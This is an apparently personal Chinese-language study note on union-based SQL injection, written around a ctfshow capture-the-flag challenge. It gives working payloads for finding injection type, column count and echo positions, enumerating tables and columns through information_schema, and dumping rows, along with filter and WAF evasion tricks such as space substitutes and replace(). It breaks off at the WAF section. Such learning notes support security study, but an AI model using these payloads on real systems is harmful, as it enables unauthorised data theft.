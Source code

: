 # sql注入学习1

<br>


## 第一步：判断注入类型

<br>

* 数字型: 使用 1 and 1=2和1 and 1=1来判断(如果没报错，那就不是数字型注入)
* 字符型： 试试可能的闭合符   '    "    ')    ")

<br>

## 第二步: 联合查询前写入语句

<br>

* 可能的闭合符   '  "  ')  ")
* 不需要的语句可以用注释符号 --+ 或者 # 或者 %23 注释掉
* 使用group by 或者Order by 确定数据列数量:id=-2'group by 4--+
* 查找回显位:使你提交的结果能够在页面上给你体现出来 使用语句?id=-2'union select 1,2,3--+(回显的内容的数字就可以知道是哪个位置了)

<br>

## 第三步: 查询库 表 列
* 查找库名:?id=-2'union select 1,2,database()--+ (三号位就是苦库的名）
* 查找表名:id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+(这段话用于在总表information_schema中查找database()的库所对应的table_name，也就是显示这个库中所有的表名。而group_concat则可以把这些表拼接起来)
* 查找列名:id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() --+(原理几乎同上)

## 第四步：查询数据库
* -2'union select * from ctfshow_web.ctfshow_user where username = 'flag' --+ （在名为ctfshow_web的库里找到名为ctfshow_user的表，并且从中寻找列名username的值为flag的数据）

<br>

# 特别的绕过方式
* replace(username,'f','g'),使用改名使得flag绕过preg_match(只能对返回值过滤进行绕过)
* 空格绕过： %0a %0d %0c /**/ +

<br>

## waf绕过
* 大小写